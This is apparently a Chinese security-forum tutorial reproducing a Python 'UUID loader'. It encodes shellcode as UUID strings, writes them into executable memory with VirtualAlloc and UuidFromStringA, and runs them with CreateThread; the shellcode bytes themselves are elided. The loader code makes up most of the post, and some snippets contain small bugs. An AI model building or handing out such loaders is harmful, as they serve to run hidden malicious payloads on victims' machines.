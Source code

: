 UUID加载器
=======

前几天看到一个加载器很有意思，通过uuid方式将shellcode写入内存中

在此复现一下，虽然不免杀，但可以扩宽我们将shellcode写入内存的知识面。

UUID是啥
======

UUID: 通用唯一标识符 ( Universally Unique Identifier ), 对于所有的UUID它可以保证在空间和时间上的唯一性. 它是通过MAC地址, 时间戳, 命名空间, 随机数, 伪随机数来保证生成ID的唯一性, 有着固定的大小( 128 bit ). 它的唯一性和一致性特点使得可以无需注册过程就能够产生一个新的UUID. UUID可以被用作多种用途, 既可以用来短时间内标记一个对象, 也可以可靠的辨别网络中的持久性对象.

转换为UUID
=======

python有根据十六进制字符串生成UUID的函数uuid.UUID()

<https://docs.python.org/3/library/uuid.html>

注意16个字节转换一个uuid值，\\x00是一个字节

当剩余字节数不满16个可添加\\x00补充字节数，必须将全部的shellcode全部转化为uuid

```php
import uuid

scode = b'''\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\......'''
list = []
for i in range(len(scode)/16):
     bytes_a = scode[i*16:16+i*16]
     b = uuid.UUID(bytes_le=bytes_a)
     list.append(str(b))
print(list)
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c4ef2f6fe1b98efa51dead8d181fdef89ca5ee05.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c4ef2f6fe1b98efa51dead8d181fdef89ca5ee05.png)

UUID写入内存
========

将普通的内存加载器改了改，能用就行

主要是了解uuid写入内存的实现过程

下面已经将shellcode转为了uuid，并放在列表中

```php
import ctypes
import requests
import b ase64

shellcode = ['e48348fc-e8f0-00c8-0000-415141505251', 'd2314856-4865-528b-6048-8b5218488b52'.......]
```

申请内存，注意申请内存的大小len(shellcode)\*16

有多少uuid值，它的16倍就是需要的内存大小

```php
rwxpage = ctypes.windll.kernel32.VirtualAlloc(0, len(shellcode)*16, 0x1000, 0x40)
```

通过UuidFromStringA函数，将uuid值转为二进制

二进制则储存在内存当中，rwxpage1是内存指针，表示从该指针位置写入。

rwxpage1+=16是控制指针的位置，每写入一个uuid二进制需要将指针移动16个字节

```php
rwxpage1 = rwxpage
for i in list:
    ctypes.windll.Rpcrt4.UuidFromStringA(i,rwxpage1)
    rwxpage1+=16
```

然后创建线程运行即可。

```php
handle = ctypes.windll.kernel32.CreateThread(0, 0, rwxpage, 0, 0, 0)

ctypes.windll.kernel32.WaitForSingleO bject(handle, -1)
```